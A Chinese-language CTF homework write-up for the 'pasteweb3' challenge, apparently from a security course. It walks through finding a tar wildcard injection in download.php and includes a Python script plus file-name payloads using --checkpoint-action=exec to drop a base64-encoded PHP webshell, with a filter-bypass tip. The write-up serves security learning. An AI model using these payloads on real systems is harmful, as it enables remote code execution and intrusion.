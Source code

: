 # hw_pasteweb3

1. 這題的題目說要 try to RCE, you can read the final FLAG by executing `/readflag` ，我這邊第一個想法是，因為前一題已經可以讀檔案內容了，於是我這邊也嘗試讀取 readflag 檔案看看，結果發現好像可以讀到一個 ELF 開頭的檔案，我把它的 byte 寫進一個叫 result 的自創檔案，然後用 file 去check 確認這是一個 ELF 檔案，但實際執行起來會有問題，會說 fopen : No such file or directory，猜測他會去開啟一個檔案但找不到，然後用 GDB 去執行看他要讀取的檔案是什麼，發現是要找一個叫 /flag 的 的檔案但找不到，於是我也用差不多的方法去載 /flag 檔案，但是也會讀取不到，後來想想因為不是可執行檔，也沒寫進環境變數，所以會需要絕對路徑才可以讀取到它，所以這個方法目前可能會行不通。
    
    ![截圖 2022-12-29 上午11.33.10.png](hw_pasteweb3%20008e5ff9a9e24a04a12783d0f2e1df24/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258A%25E5%258D%258811.33.10.png)
    
    ![截圖 2022-12-29 下午1.42.47.png](hw_pasteweb3%20008e5ff9a9e24a04a12783d0f2e1df24/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25881.42.47.png)
    
    ![截圖 2022-12-29 下午1.53.25.png](hw_pasteweb3%20008e5ff9a9e24a04a12783d0f2e1df24/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25881.53.25.png)
    
    ![截圖 2022-12-29 下午2.04.07.png](hw_pasteweb3%20008e5ff9a9e24a04a12783d0f2e1df24/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25882.04.07.png)
    
    ![截圖 2022-12-29 下午2.05.58.png](hw_pasteweb3%20008e5ff9a9e24a04a12783d0f2e1df24/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25882.05.58.png)
    

1. 因為上一題取得了程式的 Source code，所以這邊嘗試去 Code review 內容，找了很久在 download.php 裡面發現這邊有個地方很像是漏洞， “tar -cvf download.tar *” 這個指令因為後面的萬用字元是可以控制的參數，所以可以注入任何字元進來讓 tar 去執行，上網研究了一下確認這是個 Wildcards injection 的漏洞，所以接下來要想辦法去控制 * 參數，讓他可以執行 Wildcards injection 的 paylaod 。
    
    ![截圖 2022-12-29 下午2.44.48.png](hw_pasteweb3%20008e5ff9a9e24a04a12783d0f2e1df24/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25882.44.48.png)
    

1. 接下來去研究怎麼把內容注入到 tar -cvf download.tar * 這一行的 ＊這邊，這邊 tar 會把 $sandbox 路徑裡面的檔案都打包壓縮，可是 $sandbox 裡面的內容 $_SESSION 會被弄成 md5 因為沒辦法方法去讀檔案路徑，所以這邊沒辦法直接知道打包檔案的路徑，所以也沒辦法把一些檔案放到 sandbox 裡面，所以這題不能用檔案路徑。然後也嘗試塞一些 payload 進去，去觀察回傳值，但目前也看不太出來有什麼效果。
    
    ![截圖 2022-12-29 下午6.21.38.png](hw_pasteweb3%20008e5ff9a9e24a04a12783d0f2e1df24/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25886.21.38.png)
    
    ![截圖 2022-12-29 下午6.22.03.png](hw_pasteweb3%20008e5ff9a9e24a04a12783d0f2e1df24/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25886.22.03.png)
    

1. 於是到這邊的時候我有兩個方向
    1. 原本題目，嘗試去 RCE ，然後執行 ./readelf 檔案，拿 flag (方法的話，就是用 tar wildcard injection ，但目前不知道怎麼用）按照原本題目，嘗試去 RCE ，然後執行 ./readelf 檔案，拿 flag (方法的話，就是用 tar wildcard injection ，但目前不知道怎麼用）
        
        [Wildcards Spare tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)
        
    
    b. 去拿 readflag 檔案並執行( 已拿到），執行後發現他會去讀 flag 檔案 ( 未拿到），然後直接在本地端執行 readflag ，但因爲暫時沒有想到什麼方法找到 flag 的位置，所以這個方式還沒有想到可以怎麼解。
    

1. 然後就開始去嘗試 4-a 方案，

1. 首先，我們都知道是 tar 那個 fuction 有一個漏洞是 Wildcard Injection，但這邊會不知道怎麼利用，所以最好可以在電腦實作一遍，且要可以成功，成功的話會類似這張圖這樣。
    
    ![https://media.discordapp.net/attachments/1028186321186988083/1058097241992208535/2022-12-30_12.png?width=800&height=222](https://media.discordapp.net/attachments/1028186321186988083/1058097241992208535/2022-12-30_12.png?width=800&height=222)
    
2. 接下來已經知道怎麼利用這個漏洞，但不知道怎麼應用在這個網站，然後因為我們有了 Source Code ，所以可以直接去 trace 程式碼，會發現這邊 compileFile 函數能生成一個 .css 檔案，生成的檔案會放在$sandbox : /sandbox/{username_md5}/ 底下，生成的檔案會放在$sandbox : /sandbox/{username_md5}/ 底下。
    
    ![截圖 2022-12-30 上午3.58.27.png](hw_pasteweb3%20008e5ff9a9e24a04a12783d0f2e1df24/%25E6%2588%25AA%25E5%259C%2596_2022-12-30_%25E4%25B8%258A%25E5%258D%25883.58.27.png)
    
3. 然後執行 download.php 的時候，他會去$sandbox 裡面 執行這個 tar -cvf download.tar * 指令。
    
    ![https://media.discordapp.net/attachments/1028186321186988083/1058098672174383134/2022-12-30_3.05.20.png?width=800&height=489](https://media.discordapp.net/attachments/1028186321186988083/1058098672174383134/2022-12-30_3.05.20.png?width=800&height=489)
    
4. 到這邊我們可以統整一下已知的資訊，compileFile 函數可以創建副檔名為 .css 的檔案 ，執行 download.php 的時候會執行 tar -cvf download.tar * 指令。接下來就是要開始去思考如何利用這兩點來 RCE。

6.而我這邊的想法是，讓程式執行download 得時候，利用 Wildcard Injection 漏洞產生一個    backdoor.php ( backdoor.php 是自己寫進去的一句話木馬) 然後存取   /sandbox/{username_md5}/backdoor.php 這個路徑，就可以獲得一個一句話木馬的 webshell 。

以下是我的執行過程:

1. 先寫一段 payload ，利用 editCSS的功能去 /sandbox/{username_md5}/ 這個檔案路徑底下創建三個檔案，檔案名稱分別是"--checkpoint-action=exec=echo hi_hi1 > hi.txt ;" 、"--checkpoint-action=exec=sh shell.sh ;"、"--checkpoint-action=exec=echo 'PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pg=='| base64 -d > backdoor.php ;"。

```python
import requests

cookies = { 'PHPSESSID' : '2iqtg6rmf8330gap6icookvodd' }
user_md5 = "5d3437151a39b5a13e45af2e71cd1818"

def editCSS(name):
    url_edit = 'https://pasteweb.ctf.zoolab.org/editcss.php'
    value = { 'less' : "" , 'theme' : name}
    r = requests.post(url_edit, data=value, cookies=cookies)  

if __name__ == '__main__':
    editCSS("--checkpoint-action=exec=echo Successful > test.txt ;")
    editCSS("--checkpoint-action=exec=echo 'PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pg=='| base64 -d > backdoor.php ;")
```

b. 運行 download.php 後，讓他利用漏洞產生 “test.txt” 、“backdoor.php” 這兩個檔案，再去 access 這個路徑“[https://pasteweb.ctf.zoolab.org/sandbox/%7Busername_md5%7D/](https://pasteweb.ctf.zoolab.org/sandbox/%7Busername_md5%7D/backdoor.php)test.txt“，得到一個 Successful 的 Response 之後，再去access “[https://pasteweb.ctf.zoolab.org/sandbox/%7Busername_md5%7D/](https://pasteweb.ctf.zoolab.org/sandbox/%7Busername_md5%7D/backdoor.php)backdoor.php“就可以成功獲得 Webshell。因為 /readflag 已經被寫進環境變數，所以這邊可以直接執行 cmd=/readflag 來獲得FLAG{aRgUm3nT_Inj3ct10n_2_RcE}。

![截圖 2022-12-30 上午4.41.02.png](hw_pasteweb3%20008e5ff9a9e24a04a12783d0f2e1df24/%25E6%2588%25AA%25E5%259C%2596_2022-12-30_%25E4%25B8%258A%25E5%258D%25884.41.02.png)

另外，執行這個的過程，遇到的一些細節描述如下 :

a. editCSS 的時候，如果要利用 compileFile 去生成檔案 ，POST Request 要增加一個 value ，用法大概是像下圖這樣 。

![https://media.discordapp.net/attachments/1028186321186988083/1058104312259162172/2022-12-30_3.28.23.png?width=800&height=234](https://media.discordapp.net/attachments/1028186321186988083/1058104312259162172/2022-12-30_3.28.23.png?width=800&height=234)

b. 如果要放一句話木馬的話，server 端會有很多過濾機制，會導致沒有寫成功，像是 $ 前面要加 / 之類的。而我這邊是直接把一句話木馬的內容轉為 base64 ，再傳進去，就不會遇到那個過濾機制的問題。

![https://media.discordapp.net/attachments/1028186321186988083/1058104804964061244/2022-12-30_3.29.46.png?width=800&height=42](https://media.discordapp.net/attachments/1028186321186988083/1058104804964061244/2022-12-30_3.29.46.png?width=800&height=42)

![截圖 2022-12-30 上午4.45.58.png](hw_pasteweb3%20008e5ff9a9e24a04a12783d0f2e1df24/%25E6%2588%25AA%25E5%259C%2596_2022-12-30_%25E4%25B8%258A%25E5%258D%25884.45.58.png)

d. 這邊不用放 “--checkpoint=1” 這個檔名到路徑底下，我試了很久都沒有辦法 work ，好像是他已經有預設這個參數了。 

e. 路徑底下要多塞一點東西，因為不知道它實際 tar 還有帶了什麼隱藏了什麼參數，像是 “--checkpoint=1” 不知道被藏在什麼地方，要塞夠大的資料進去檔案路徑 tar 才可以漏洞利用成功，而我這邊是直接 Edit HTML 一對內容進去，因為 Edit HTML 的檔案也會被放在同個資料夾底下。